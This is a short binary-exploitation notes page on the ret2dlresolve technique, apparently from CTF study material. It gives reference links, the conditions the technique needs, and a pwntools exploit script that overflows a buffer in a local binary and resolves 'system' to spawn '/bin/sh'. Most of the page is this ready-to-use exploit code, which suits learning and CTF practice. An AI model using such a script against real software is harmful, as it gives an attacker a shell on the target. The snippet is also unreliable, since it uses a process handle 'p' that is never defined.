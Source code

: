 # ret2dlresolve

- [ir0nstone gitbook](https://ir0nstone.gitbook.io/notes/binexp/stack/ret2dlresolve)
- [Phrack](https://phrack.org/issues/58/4.html)
- [0ctf babystack](https://gist.github.com/ricardo2197/8c7f6f5b8950ed6771c1cd3a116f7e62)

When `NX is enabled`, `ASLR`, is dynamically linked, have access to read on the PLT.

## Exploit code 
```python
from pwn import *
import time

context.log_level = 'DEBUG'
context(os='linux', arch='amd64')
context.binary = elf = ELF('./vuln')
glibc = elf.libc
rop = ROP(elf)

dlresolve = Ret2dlresolvePayload(elf, symbol='system', args=['/bin/sh'])

rop.raw('A' * (64 + 8))
rop.read(0, dlresolve.data_addr)
rop.ret2dlresolve(dlresolve)
p.sendline(rop.chain())
p.sendline(dlresolve.payload)

p.interactive()
```

